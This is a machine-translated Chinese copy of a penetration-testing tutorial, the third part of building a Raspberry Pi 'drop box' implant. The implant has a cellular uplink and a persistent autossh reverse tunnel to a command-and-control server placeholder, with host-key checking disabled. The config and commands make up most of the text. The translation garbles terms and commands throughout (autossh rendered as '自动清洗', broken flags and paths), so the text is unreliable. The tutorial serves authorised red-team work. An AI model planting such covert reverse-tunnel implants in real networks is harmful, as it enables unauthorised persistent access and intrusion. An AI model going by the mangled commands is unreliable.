



# 第 3 部分:最终的笔测试投件箱演练—添加一个单元格反向链接

> 原文：<https://infosecwriteups.com/part-3-pen-test-dropbox-adding-a-cellar-backlink-8c8d5cfde667?source=collection_archive---------1----------------------->

# 为蜂窝卡安装所需的依赖项

安装依赖项的命令:

> apt-get 安装 kali**pi**-kernel-header

> curl-L--output/usr/bin/rpi-update[https://raw . githubusercontent . com/hex xeh/rpi-update/master/rpi-update](https://raw.githubusercontent.com/Hexxeh/rpi-update/master/rpi-update)&&sudo chmod+x/usr/bin/rpi-update

忽略警告，键入“y”接受安装/更新。

# 向 Twilio 注册您的蜂窝卡

点击[此处](https://www.twilio.com/console)并设置您的卡(或按照 SIM 卡附带的说明操作)

> wget[https://raw . githubusercontent . com/six fab/six fab _ RPi _ 3G-4G-LTE _ Base _ Shield/master/tutorials/QMI _ tutorial/qmi _ install . sh](https://raw.githubusercontent.com/sixfab/Sixfab_RPi_3G-4G-LTE_Base_Shield/master/tutorials/QMI_tutorial/qmi_install.sh)&&sudo chmod 755 qmi _ install . sh

> vim qmi_install.sh(更改所有文件目录以匹配您所拥有的，因为文件路径是硬编码的)

> wget[https://raw . githubusercontent . com/six fab/six fab _ RPi _ 3G-4G-LTE _ Base _ Shield/master/tutorials/QMI _ tutorial/install _ auto _ connect . sh](https://raw.githubusercontent.com/sixfab/Sixfab_RPi_3G-4G-LTE_Base_Shield/master/tutorials/QMI_tutorial/install_auto_connect.sh)

sudo chmod+x install _ auto _ connect . sh

> install_auto_connect.sh(完成后需要重新启动)

> CD/home/[您的用户名]/files/quectel-CM

>./克特尔-CM-s wireless.twilio.com

>重新启动

> vim /usr/src/qmi_reconnect.sh

> sudo systemctl 状态 qmi_reconnect.service

> sudo 重启

# 设置 RDP 访问权限(如果您愿意的话)

> apt install-y xrdp tigervnc-standalone-server

> systemctl 使能 xrdp

> systemctl 重启 xrdp

> systemctl 启用 xrdp-sesman.service

# 在 PI 上设置自动 SSH 回调

从 Pi 生成一个新的 SSH 密钥对。

> ssh-keygen

然后将您的密钥复制到 CnC 服务器。

> ssh-copy-id-I/path/to/your/public/key-p 22 lessprivuser @ CnC _ Server _ IP

安装自动清洗。

> apt 安装自动清洗

创建一个运行 autossh 命令的服务来构建反向 shell。

> vim/etc/systemd/system/r tunnel . service

输入以下所有内容并编辑 CNC_Server_IP:

*【单位】*

*描述= AutoSSH 反向隧道*

*After=routes.service*

*【服务】*

*Environment = " autosh _ gate time = 0 "*

*ExecStartPre =/bin/sleep 30*

*ExecStart =/usr/bin/autos sh-m0-N-o " ServerAliveInterval 60 "-o " ServerAliveCountMax 3 "-o stricthostkey checking = false-o " connect time out 10 "-o " exitonfordfailure yes "-R 2222:localhost:22[****lessprigledgeduser****@****CnC _ Server _ IP****]*

*重启=开-故障*

*重启秒=5s*

*【安装】*

多用户目标

为您的 PI 创建一个路由，以构建一个到 CnC 服务器的 SSH。

vim/etc/systemd/system/routes . service

*【单位】*

*描述=持续路线*

*After=twilio.service*

*【服务】*

*ExecStartPre =/bin/sleep 20*

*ExecStart =/sbin/route add-net[****YOUR _ CnC _ Server _ IP****]net mask 255 . 255 . 255 . 255 . dev wwan 0*

*【安装】*

*wanted by =多用户.目标*

创建一个在启动时运行以激活手机网络连接的服务。

> vim/etc/systemd/system/twilio . service

*【单位】*

*描述=蜂窝互联网 z*

*【服务】*

*ExecStart =/home/[用户名]/files/que ctel-CM/que ctel-CM-s internet；udpcpc -i wwan0*

*【安装】*

*wanted by = multi-user . target*

# 可选预防措施

为了防止 SSH 挂起妨碍将来的连接，您需要设置一个 cron 作业，每小时(或者您觉得合适的任何时间间隔)重新启动投件箱。

> crontab -e

> */60 * * * * root 关机-r

Crontab 条目

# 轻松跳到投件箱

> ssh[用户]@[数控地址]

> ssh[user]@ localhost-p[PORT _ IMPLANT _ CONNECTED _ TO _ CNC _ ON]

# 植入物/接线盒的最终接口

最终网络接口

返回到:
第 1 部分:[构建一个基于云的命令和控制服务器，并用蜂窝反向链接攻击投件箱](https://killbit.medium.com/part-1-build-a-cloud-based-command-and-control-server-and-attack-drop-box-with-a-cellular-b3e9e063dedd)

第 2 部分:[构建笔测试下拉框](https://killbit.medium.com/part-2-build-the-pen-test-drop-box-69278526886a)

如果你喜欢我的内容和我在这里提供的工作，请考虑发送一些咖啡爱我的方式@[https://www.buymeacoffee.com/killbit](https://www.buymeacoffee.com/killbit)

你友好的邻居黑客，

杀手